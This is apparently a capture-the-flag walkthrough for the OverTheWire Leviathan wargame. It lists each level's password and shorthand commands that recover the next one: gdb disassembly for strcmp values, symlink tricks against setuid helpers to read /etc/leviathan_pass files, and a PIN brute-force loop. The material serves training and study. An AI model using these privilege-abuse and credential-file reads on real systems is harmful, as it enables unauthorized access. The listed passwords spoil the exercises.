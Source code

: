 # [Over The Wire](https://overthewire.org/wargames/)
## [Leviathan](https://overthewire.org/wargames/leviathan/)

| Username  |  Password | How to get the password  |
| :------------ | :------------ | :------------ |
| leviathan0  |  leviathan0 |  `#password obtained from webpage` |
|   leviathan1|  rioGegei8m | `cd .backup; grep "leviathan" bookmarks.html` |
|   leviathan2| ougahZi8Ta  | `gdb ./check; disas main; b *main(wherever the strcmp address is); x/s $(lea  before strcomp) this will give you the password; ./check passwrod; find / -name leviathan2; cat /etc/leviathan_pass/leviathan2`  |
|   leviathan3|  Ahdiemoo1j |  `mkdir /tmp/ee && cd $_; ln -s /etc/leviathan_pass/leviathan3 .;touch "get leviathan3";~/printfile "get leviathan3"` |
|   leviathan4| vuH0coox6m  | `gdb -q level3; disas main -> disas do_stuff; b *dostuff+strcomp; check for lea x/s -> password; find / -iname $(whoami) -exec cat {} \;`  |
|   leviathan5| Tith4cokei  |`cd .trash; ./bin; then covert from binary to ascii`    |
|   leviathan6|  UgaoFee4li |  ` ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log; ./leviathan5` |
|   leviathan7|  ahy7MaeBo9 |   `used ltrace;gdb; eventually bruteforce; for i in (seq 0000 9999); do echo $i; ./leviathan6; done; find / -iname $(whoami) -exec cat {} \;`|



##The end :)
